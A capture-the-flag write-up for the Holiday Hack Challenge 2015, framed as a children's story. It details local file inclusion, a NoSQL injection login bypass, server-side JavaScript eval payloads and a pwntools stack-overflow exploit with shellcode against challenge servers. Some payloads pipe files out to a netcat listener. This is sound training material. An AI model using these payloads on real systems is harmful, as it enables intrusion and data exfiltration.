







## Holiday Hack Challenge 2015
# Final Submission

### Gnome In Your House (Epilogue)

There was a knock on the door. Josh opens the door and see a lady in a nice business suit. 

"I hear you are looking for me" said the lady. 

"Yes, are you dad's friend in law enforcement?" replied Josh.

"I most certainly am" said the lady.

Josh excitedly grabs her hand and lead her into their bedroom where Jess is waiting.

"She's here Jess!!" yelled Josh.

The lady took a quick scan of the bedroom and noticed the peculiar Gnome sitting in the corner of the room. 

"What's the matter?" asked the lady.

"We have uncovered a most terrible plot Ma'am and we want to share it with the authorities" said Jess as she beckons the lady over to Josh's laptop. 

Josh sits down next to them and begins his explanation....

---

##### 1) Which commands are sent across the Gnome's command-and-control channel?

NONE, EXEC, FILE

##### 2) What image appears in the photo the Gnome sent across the channel from the Dosis home?

Looks like the kids' bedroom with the caption GnomeNET-NorthAmerica



##### 3) What operating system and CPU type are used in the Gnome?  What type of web framework is the Gnome web interface built in?</b></p>

> CPU: ARM Little Endian

> Operating System: OpenWrt (Bleeding Edge)

> Web Framework: Nodejs (Express)

##### 4) What kind of a database engine is used to support the Gnome web interface? What is the plaintext password stored in the Gnome database?

> Database Engine: MongoDB

> User Accounts in the Gnome Database is user:user and admin:SittingOnAShelf

##### 5) What are the IP addresses of the five SuperGnomes scattered around the world, as verified by Tom Hessman in the Dosis neighborhood?
##### 6) Where is each SuperGnome located geographically?

```
SG-01	(52.2.229.189)		[United States, Ashburn]
SG-02	(52.34.3.80)		[United States, Boardman]
SG-03	(52.64.191.71)		[Australia, Sydney]
SG-04	(52.192.152.132)	[Japan, Tokyo]
SG-05	(54.233.105.81)		[Brazil]
```

##### 7) Please describe the vulnerabilities you discovered in the Gnome firmware.

There are a few vulnerabilities in the firmware. They include the following.

##### Local File Inclusion (/www/routes/index.js)



The vulnerability is in the "/cam" handler. The "camera" parameter is used to access a local file from the "./public/images" folder. This parameter is only partially sanitized by appending a ".png" at the end of the filepath. It does not remove the traversal operator "../" thus it is vulnerable to local file inclusion.

If the code is running with the commented line uncommented, a filepath with ".png" in any part of the filepath will invalidate the check and allow the injected filepath to go through.

##### NoSQL Injection (/www/routes/index.js)



The vulnerability is in the Login handler. The "username" and "password" parameter are used directly in a NoSQL query without any santisation. This means it is vulnerable to NoSQL Injection that could lead to an authentication bypass

##### Server-Side Javascript Injection (/www/routes/index.js)



The vulnerability is in the "/files" upload handler. The "postproc" parameter is used directly in a "eval" statement. Combined with the fact that this application is running on NodeJS, this means it is vulnerable to Server-Side Javascript Injection.

##### Stack Overflow (/usr/bin/sgstatd)


The vulnerability is in the "sgstatd" binary. After triggering a hidden command 'X', the "sgnet_readn" function writes up to 0xc8 number of bytes into a stack buffer of 0x6c size resulting in a stack overflow.

##### 8) ONCE YOU GET APPROVAL OF GIVEN IN-SCOPE TARGET IP ADDRESSES FROM TOM HESSMAN IN THE DOSIS NEIGHBORHOOD, attempt to remotely exploit each of the SuperGnomes.  Describe the technique you used to gain access to each SuperGnome’s gnome.conf file. 

##### SG-01 ([gnome.conf](SG01_gnome.conf))

SG-01's gnome.conf can be downloaded directly using the recovered credentials of "admin:SittingOnAShelf"

##### SG-02 ([gnome.conf](SG02_gnome.conf))

Make use of the local file inclusion vulnerability to pwn SG-02. SG-02 is running an old version of the code with the commented line in use. There is also a Settings Upload form in the "Settings" page that basically can create folders with user specified folder name

- Use the Settings Upload form to upload a file to a folder named ".png"

- Take note of the folder that is created

- Make use of the ".png" folder in the file inclusion path


##### SG-03 ([gnome.conf](SG03_gnome.conf))

The credentials "admin:SittingOnAShelf" does not work for SG-03. Make use of the NoSQL injection vulnerability to bypass authentication<

- Intercept the request using a proxy (I used Burpsuite)
- Change the "Content-Type" header to "application/json"
- Change the content to the following{ "username": "admin", "password": {"$ne": ""} }


This is similar to executing the MySQL query with "username == 'admin' AND password != ''". This will log you in as admin and the gnome.conf file can be downloaded directly

##### SG-04 ([gnome.conf](SG04_gnome.conf))

There is now a Files Upload form in the "Files" section. Make use of the SSJS vulnerability.

I used the "readFileSync" method to obtain the gnome.conf file. I copied the HTML code of the upload form and modified it as follow. This makes the editing the explotation much easier without the need to setup a proxy.

```html
<h2>Upload New File</h2>
<form action="http://52.192.152.132/files" method="post" role="form" enctype="multipart/form-data">
  <h4>Post-process:</h4>
  <select required name="postproc">
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/gnome.conf'))">gnome.conf</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/sgnet.zip'))">sgnet.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/20151203133815.zip'))">20151203133815.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/factory_cam_4.zip'))">factory_cam_4.zip</option>
    <option value="res.send(require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT'))">factory_cam_4</option>
  </select>
  <h4>Choose a file:</h4>
  <input required name="file" type="file">
  <button type="submit">Upload</button>
</form>
```

In addition, factory_cam_4.zip download keeps getting truncated when I used "readFileSync". Therefore, I used the "execSync" function to transfer the file back to me using netcat instead.

##### SG-05 ([gnome.conf](SG05_gnome.conf))

Running nmap on SG-05 reveals an odd port (4242). Upon further investigation, it belongs to the "sgstatd" process. Therefore, make use of the stack overflow vulnerability.

- Connect to "54.233.105.81" port "4242"
- Enter 'X' in the menu to trigger the Hidden Command
- Send the payload

The overflow will overwrite a function return pointer, thus gaining control of the EIP. Instead of using an already available shellcode, I want to reuse some of the binary's own code.

Earlier during the menu selection, if a valid choice (1,2,3) was entered, the code would then call 'popen' with a specific command line string. For my shellcode, I would like to setup an arbitrary command line string and then jump to this popen call. This is how my final payload will look like.



**shellc1.asm (shellcode1)**
```asm
sub esp, 0x74
jmp esp
```

**shellc2.asm (shellcode2)**
```asm
lea ebp, [esp+0x4ec]    /* restore the EBP, offset to 'child_main' valid ebp */
lea eax, [esp+0x79]     /* offset to commandstr */

push 0x72               /* push 'r\x00' onto the stack */
mov ebx, esp

push ebx                /* arg 2 'r' */
push eax                /* arg 1 commandstr */
push 0x08048e42         /* address to popen call */
ret                     /* ret to put the above address into eip*/
```

Note that EBP needs to be restored to a valid value so that the process can continue to write its output to a valid socket

The final exploitation script using pwntools looks like this

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("54.233.105.81", 4242) # SG-05 server

print conn.recvuntil('users')
conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

tmpfile = open("shellc1.asm", "r")
tmp = tmpfile.read()
subesp = asm(tmp)

scfile = open("shellc2.asm", "r")
sc = scfile.read()
shellcode = asm(sc)

pwn = shellcode
pwn += 'A'*(0x68-len(shellcode))
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'
pwn += pack(0x0804936b) #eip control here! jmp esp which is pointing to the below instructions
pwn += subesp
cmd = '/bin/cat /gnome/www/files/gnome.conf | /bin/nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT\x00'
pwn += cmd
pwn += 'C'*(0x56-len(subesp)-len(cmd))

conn.send(pwn)
pause(9)    # pause to keep the socket alive. program will write reply into the socket
results = conn.recvall()
print results

fh = open('results', 'w')   # write response to file, handles file downloads
fh.write(results)
fh.close
```

The command string will cat the gnome.conf file and transfer it back to me through netcat

##### 9) Based on evidence you recover from the SuperGnomes' packet capture ZIP files and any staticky images you find, what is the nefarious plot of ATNAS Corporation?

After gaining access to all the Supergnomes, download all the packet capture ZIP files and factory_cam images.

The emails from the packet capture zip files can be read directly by wireshark as it is not encrypted. Just open the pcap files in Wireshark and "Follow TCP Stream".

It reveals the evil plot planned by the President and CEO of ATNAS Corp, Cindy Lou Who.

She had planned to use the gnomes to take pictures of the houses' interior, identify valuable items in them and send burglars to steal them on Chirstmas Eve. These burglars would be dressed as Santa so that they could lie their way out if they were caught by children. She wants to be a reverse Santa (Atnas) in which she takes presents away instead of giving them. The motivation behind it was her deep seated hatred of Chirstmas due to a traumatic exprience with the Grinch when she was a child.

Reading the "GnomeNet" section of any of the SuperGnomes reveals that 6 images was XOR-ed together to form a corrupted image. The message exchange mentions that 5 of these image was static images while the last one was of the Boss's office. This could be interesting.

From the subsequent pwning of the 5 SuperGnomes, I have access to the corrupted image and 5 of the original staticky image. With these images, I would be able to recover the last image which is supposed to be the Boss's office

I took the corrupted image and XOR-ed each pixel's RGB value with all five of the original staticky images. I used php-imagick to do that and recover the last image

```php
function xorimg($imagick1, $imagick2){
  // Use the iterator functions for iter1, iterate iter2 manually 
  $iter1 = new ImagickPixelIterator($imagick1);
  $iter2 = new ImagickPixelIterator($imagick2);
  $count = 0;

  foreach ($iter1 as $pixelRow1){
    if (!$iter2->valid()){
      break; // make sure iter2 is still valid
    }
    $pixelRow2 = $iter2->current();

    foreach($pixelRow1 as $column=>$pixel1){
      $pixel2 = $pixelRow2[$column];

      $color1 = $pixel1->getColor();
      $color2 = $pixel2->getColor();

      $newcolor = array();
      $newR = $color1['r'] ^ $color2['r'];
      $newG = $color1['g'] ^ $color2['g'];
      $newB = $color1['b'] ^ $color2['b'];
      $pixel1->setColor("rgb($newR, $newG, $newB)");
      $count++;
    }
    $iter2->next();
    $iter1->syncIterator();
  }

  return $imagick1;
}

$corrupt = new Imagick('camera_feed_overlap_error.png');
$cam1 = new Imagick('factory_cam_1.png');
$cam2 = new Imagick('factory_cam_2.png');
$cam3 = new Imagick('factory_cam_3.png');
$cam4 = new Imagick('factory_cam_4.png');
$cam5 = new Imagick('factory_cam_5.png');

echo "Xoring with cam1...\n";
$tmp = xorimg($corrupt, $cam1);
echo "Xoring with cam2...\n";
$tmp = xorimg($tmp, $cam2);
echo "Xoring with cam3...\n";
$tmp = xorimg($tmp, $cam3);
echo "Xoring with cam4...\n";
$tmp = xorimg($tmp, $cam4);
echo "Xoring with cam5...\n";
$tmp = xorimg($tmp, $cam5);
echo "Done :) \n";
$tmp->writeImage('restored.png');
```


The restored image shows a lady sitting at a desk with the name "Cindy Lou Who, Age 62". This further reinforce the idea that Cindy is the mastermind behind this plot.

##### 10) Who is the villain behind the nefarious plot.

Cindy Lou Who

---

"Wow, that is impressive work. Did you do these by yourselves?" asked the lady

"Nope, we had many strangers come into our house to help us with it!! They were very helpful!" replied Josh.

The lady raised her eyebrow...

"Ahhh!!" screamed Jess.

"What's the matter?" asked Josh.

Jess looks up to her brother nervously, looking between the lady and him.

"Josh, I just recovered the final image from the staticky images that we found."

Jess hands her laptop over to Josh. Josh looked down at the recovered image and his face changed.

Josh looked up to the lady and said "It's you....."

A big smirk appears on the lady's face.

"Yes, my name is Cindy and you two have been very naughty indeed..."

--- THE END ---